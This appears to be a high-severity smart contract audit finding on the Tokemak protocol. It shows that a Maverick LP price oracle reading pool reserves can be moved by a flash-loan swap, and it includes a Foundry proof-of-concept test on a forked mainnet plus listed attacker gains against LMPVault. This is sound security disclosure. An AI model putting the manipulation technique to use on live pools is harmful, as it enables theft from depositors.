 Modern Iris Lemur

high

# Maverick oracle can be manipulated
## Summary
The MavEthOracle.getPriceInEth() function uses the reserves of the Maverick pool to calculate the price of Maverick LP tokens. These reserves can be manipulated, which can lead to incorrect results of Maverick oracle.
## Vulnerability Detail
In the MavEthOracle contract, `getPriceInEth` function utilizes the reserves of the Maverick pool and multiplies them with the external prices of the tokens (obtained from the rootPriceOracle contract) to calculate the total value of the Maverick position.
```solidity=
// Get reserves in boosted position.
(uint256 reserveTokenA, uint256 reserveTokenB) = boostedPosition.getReserves();

// Get total supply of lp tokens from boosted position.
uint256 boostedPositionTotalSupply = boostedPosition.totalSupply();

IRootPriceOracle rootPriceOracle = systemRegistry.rootPriceOracle();

// Price pool tokens.
uint256 priceInEthTokenA = rootPriceOracle.getPriceInEth(address(pool.tokenA()));
uint256 priceInEthTokenB = rootPriceOracle.getPriceInEth(address(pool.tokenB()));

// Calculate total value of each token in boosted position.
uint256 totalBoostedPositionValueTokenA = reserveTokenA * priceInEthTokenA;
uint256 totalBoostedPositionValueTokenB = reserveTokenB * priceInEthTokenB;

// Return price of lp token in boosted position.
return (totalBoostedPositionValueTokenA + totalBoostedPositionValueTokenB) / boostedPositionTotalSupply;
```
However, the reserves of a Maverick position can fluctuate when the price of the Maverick pool changes. Therefore, the returned price of this function can be manipulated by swapping a significant amount of tokens into the Maverick pool. An attacker can utilize a flash loan to initiate a swap, thereby changing the price either upwards or downwards, and subsequently swapping back to repay the flash loan.

Attacker can decrease the returned price of MavEthOracle by swapping a large amount of the higher value token for the lower value token, and vice versa.

Here is a test file that demonstrates how the price of the MavEthOracle contract can be manipulated by swapping to change the reserves.

```solidity=
pragma solidity 0.8.17;

import { Test } from "forge-std/Test.sol";
import 'forge-std/console.sol';

import { WETH9_ADDRESS, TOKE_MAINNET, WSTETH_MAINNET } from "test/utils/Addresses.sol";

import { IPool } from "src/interfaces/external/maverick/IPool.sol";
import { MavEthOracle } from "src/oracles/providers/MavEthOracle.sol";
import { SystemRegistry, ISystemRegistry } from "src/SystemRegistry.sol";
import { RootPriceOracle } from "src/oracles/RootPriceOracle.sol";
import { AccessController, IAccessController } from "src/security/AccessController.sol";
import { IPriceOracle } from "src/interfaces/oracles/IPriceOracle.sol";
import { SwEthEthOracle} from "src/oracles/providers/SwEthEthOracle.sol";
import { EthPeggedOracle} from "src/oracles/providers/EthPeggedOracle.sol";
import { IswETH } from "src/interfaces/external/swell/IswETH.sol";
import { IPoolPositionDynamicSlim } from "src/interfaces/external/maverick/IPoolPositionDynamicSlim.sol";
import { IERC20 } from "openzeppelin-contracts/token/ERC20/IERC20.sol";

contract NewTest is Test {
  SystemRegistry public registry;
  AccessController public accessControl;
  RootPriceOracle public rootOracle;
  MavEthOracle public mavOracle;

  function setUp() external {
    vm.createSelectFork("https://rpc.ankr.com/eth", 17224221);
    registry = new SystemRegistry(TOKE_MAINNET, WETH9_ADDRESS);
    accessControl = new AccessController(address(registry));
    registry.setAccessController(address(accessControl));
    rootOracle = new RootPriceOracle(registry);
    registry.setRootPriceOracle(address(rootOracle));
    mavOracle = new MavEthOracle(registry);
  }

  function swapCallback(
    uint256 amountToPay,
    uint256 amountOut,
    bytes calldata _data
  ) external {
    address tokenIn = abi.decode(_data, (address));
    IERC20(tokenIn).transfer(msg.sender, amountToPay);
  }

  function test_MaverickOracleManipulation() external {
    IswETH swETH = IswETH(0xf951E335afb289353dc249e82926178EaC7DEd78);
    address weth = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address boostedPosition = 0xF917FE742C530Bd66BcEbf64B42c777B13aac92c;
    SwEthEthOracle swEthOracle = new SwEthEthOracle(registry, swETH);
    EthPeggedOracle ethOracle = new EthPeggedOracle(registry);
    rootOracle.registerMapping(address(swETH), swEthOracle);
    rootOracle.registerMapping(weth, ethOracle);

    (uint256 reserveA, uint256 reserveB) = IPoolPositionDynamicSlim(boostedPosition).getReserves();
    console.log("reserves", reserveA, reserveB);
    uint256 mavPriceBefore = mavOracle.getPriceInEth(boostedPosition);
    console.log("mavOracle price before", mavPriceBefore);

    //swap
    deal(address(swETH), address(this), 1e24);
    address pool = IPoolPositionDynamicSlim(boostedPosition).pool();
    IPool(pool).swap(
        address(this),
        1e18,
        false,
        false,
        0,
        abi.encode(address(swETH))
    );

    (reserveA, reserveB) = IPoolPositionDynamicSlim(boostedPosition).getReserves();
    console.log("reserves", reserveA, reserveB);
    uint256 mavPriceAfter = mavOracle.getPriceInEth(boostedPosition);
    console.log("mavOracle price after", mavPriceAfter);
    
    require(mavPriceBefore != mavPriceAfter);
  }
}
```

## Impact
There are multiple impacts that an attacker can exploit by manipulating the price of MavEthOracle:

* Decreasing the oracle price to lower the totalDebt of LMPVault, in order to receive more LMPVault shares.
* Increasing the oracle price to raise the totalDebt of LMPVault, in order to receive more withdrawn tokens.
* Manipulating the results of the Stats contracts to cause miscalculations for the protocol.
## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/oracles/providers/MavEthOracle.sol#L59-L72

## Tool used
Manual Review
Foundry

## Recommendation
Use another calculation for Maverick oracle